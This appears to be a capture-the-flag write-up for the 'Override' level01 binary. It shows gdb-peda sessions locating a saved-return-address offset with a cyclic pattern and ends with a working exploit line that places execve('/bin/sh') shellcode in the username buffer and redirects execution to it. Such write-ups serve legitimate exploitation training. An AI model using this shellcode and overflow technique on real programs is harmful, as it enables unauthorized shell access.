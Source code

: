 <pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x42424242 ('BBBB')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd5b0 ('B' <repeats 15 times>)
0004| 0xffffd5b4 ('B' <repeats 11 times>)
0008| 0xffffd5b8 ("BBBBBBB")
0012| 0xffffd5bc --> 0x424242 ('BBB')
0016| 0xffffd5c0 --> 0xffffd5f4 --> 0x23f25da8 
0020| 0xffffd5c4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5c8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5cc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x65414149 ('IAAe')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x41344141 ('AA4A')
EBP: 0x41414a41 ('AJAA')
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------stack-------------------------------------]
0000| 0xffffd5a0 ("AAKAAgAA6AAL\n")
0004| 0xffffd5a4 ("AgAA6AAL\n")
0008| 0xffffd5a8 ("6AAL\n")
0012| 0xffffd5ac --> 0xffff000a --> 0x0 
0016| 0xffffd5b0 --> 0xffffd5e4 ("S??AC\201O\004")
0020| 0xffffd5b4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5b8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5bc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 75
<pre>

```
$> (python -c "print('dat_wil0' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 100)"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')"; cat) | ./level01 
```

